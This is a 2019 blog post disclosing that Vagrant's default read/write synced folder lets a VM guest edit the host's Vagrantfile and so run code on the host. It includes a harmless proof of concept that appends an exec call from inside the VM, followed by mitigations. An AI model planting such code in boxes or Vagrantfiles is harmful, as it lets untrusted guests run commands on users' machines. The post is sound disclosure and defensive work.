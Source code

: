 ```yaml
---
layout: post
title: Malicious vagrant boxes
---
```


{{ page.title }}
================

<p class="meta">8 June 2019 - Mojave Desert</p>
Hey so did you know by default vagrant run's VM's in the same security context as your host operating system! Kinda wild right? So does that mean that if you tested a strange and unknown vagrant box off https://app.vagrantup.com/boxes/search you might be pwned? Absolutely!

"WTF?"

You might be asking. WTF indeed.

The issue is pretty straight forward, for some reason vagrant mounts the code directory inside the VM as read/write. Normally the VM would be running your code so this wouldn't be much of a concern however this directory also contains the Vagrantfile configuration, which of course is just a ruby script and is executed everytime you run `vagrant` on the host.

Kinda crazy right?

So here's a quick example getting execution on the host from simply editing this file within the VM.

```
host$ vagrant init
A `Vagrantfile` has been placed in this directory. You are now
ready to `vagrant up` your first virtual environment! Please read
the comments in the Vagrantfile as well as documentation on
`vagrantup.com` for more information on using Vagrant.
host$ sed -i -e '/config.vm.box =/s@.*@config.vm.box = "ubuntu/eoan64"@' Vagrantfile   # Set config.vm.box to ubuntu/eoan64
host$ vagrant up
Bringing machine 'default' up with 'virtualbox' provider...
==> default: Checking if box 'ubuntu/eoan64' version '20190605.0.0' is up to date...
==> default: Machine already provisioned. Run `vagrant provision` or use the `--provision`
==> default: flag to force provisioning. Provisioners marked to run always will still run.
host$ vagrant ssh
Welcome to Ubuntu Eoan Ermine (development branch) (GNU/Linux 5.0.0-15-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jun  8 08:06:42 UTC 2019

  System load:  0.0               Processes:             111
  Usage of /:   11.5% of 9.63GB   Users logged in:       1
  Memory usage: 18%               IP address for enp0s3: 10.0.2.15
  Swap usage:   0%

 * Ubuntu's Kubernetes 1.14 distributions can bypass Docker and use containerd
   directly, see https://bit.ly/ubuntu-containerd or try it now with

     snap install microk8s --classic

0 updates can be installed immediately.
0 of these updates are security updates.


Last login: Sat Jun  8 07:59:53 2019 from 10.0.2.2
vagrant@ubuntu-eoan:~$ echo 'exec("bc")' >> /vagrant/Vagrantfile
vagrant@ubuntu-eoan:~$ logout
Connection to 127.0.0.1 closed.
host$ vagrant halt
bc 1.06
Copyright 1991-1994, 1997, 1998, 2000 Free Software Foundation, Inc.
This is free software with ABSOLUTELY NO WARRANTY.
For details type `warranty'. 
1+1
2
```

Now I've been meaning to make a post about this for some time, when I originally noticed this it was very difficult to find *any* mention of this which is a bit unfortantate. For a while I've been using the following workaround, which I admit isn't ideal.. but still works.

```
  config.vm.synced_folder ".", "/vagrant", disable: true
  config.vm.synced_folder "vagrant", "/vagrant"
```
This will move the shared folder to a subfolder named vagrant under the main directory, which includes the Vagrantfile config.


Just now though when I was writing this I was surprised to notice this warning that pops up when you download run `vagrant up` and the box doesn't exist on your computer yet.

```
Vagrant is currently configured to create VirtualBox synced folders with
the `SharedFoldersEnableSymlinksCreate` option enabled. If the Vagrant
guest is not trusted, you may want to disable this option. For more
information on this option, please refer to the VirtualBox manual:

  https://www.virtualbox.org/manual/ch04.html#sharedfolders

This option can be disabled globally with an environment variable:

  VAGRANT_DISABLE_VBOXSYMLINKCREATE=1

or on a per folder basis within the Vagrantfile:

  config.vm.synced_folder '/host/path', '/guest/path', SharedFoldersEnableSymlinksCreate: false
```

So it seems like this has been added more recently and there may be a better option to prevent this issue. Let's try it.

```
host$ sed -i -e "/config.vm.box =/a\ 
config.vm.synced_folder '.\/', '\/vagrant', SharedFoldersEnableSymlinksCreate: false" Vagrantfile    # Add suggested line to config just after the config.vm.box line
host$ sed -i -e "/exec/d" Vagrantfile    # Delete exec('bc') line
host$ vagrant up --provision
Bringing machine 'default' up with 'virtualbox' provider...
==> default: Checking if box 'ubuntu/eoan64' version '20190605.0.0' is up to date...
==> default: Clearing any previously set forwarded ports...
==> default: Clearing any previously set network interfaces...
==> default: Preparing network interfaces based on configuration...

** snip **
host$ vagrant ssh
Welcome to Ubuntu Eoan Ermine (development branch) (GNU/Linux 5.0.0-15-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Jun  8 09:00:07 UTC 2019

  System load:  0.56              Processes:             118
  Usage of /:   11.5% of 9.63GB   Users logged in:       0
  Memory usage: 16%               IP address for enp0s3: 10.0.2.15
  Swap usage:   0%

 * Ubuntu's Kubernetes 1.14 distributions can bypass Docker and use containerd
   directly, see https://bit.ly/ubuntu-containerd or try it now with

     snap install microk8s --classic

0 updates can be installed immediately.
0 of these updates are security updates.


Last login: Sat Jun  8 08:06:42 2019 from 10.0.2.2
vagrant@ubuntu-eoan:~$ ls /vagrant/
vagrant@ubuntu-eoan:~$ sudo touch /vagrant/asdf
vagrant@ubuntu-eoan:~$ ls -lah /vagrant/
total 8.0K
drwxr-xr-x  2 root root 4.0K Jun  8 09:00 .
drwxr-xr-x 20 root root 4.0K Jun  8 08:59 ..
-rw-r--r--  1 root root    0 Jun  8 09:00 asdf
vagrant@ubuntu-eoan:~$ logout
Connection to 127.0.0.1 closed.
host$ ls -lah
total 8
drwxr-xr-x   4 jarv  wheel   128B Jun  8 02:01 .
drwxrwxrwt  15 root  wheel   480B Jun  8 02:01 ..
drwxr-xr-x   4 jarv  wheel   128B Jun  8 00:33 .vagrant
-rw-r--r--   1 jarv  wheel   3.0K Jun  8 01:52 Vagrantfile
host$ 
```

So it looks like that fixes the issue, but also doesn't seem to share the code directory.. which limit's the usefullness of vagrant I would imagine. Ideally I think the share should just mount as readonly, seems like the simplest safe solution.
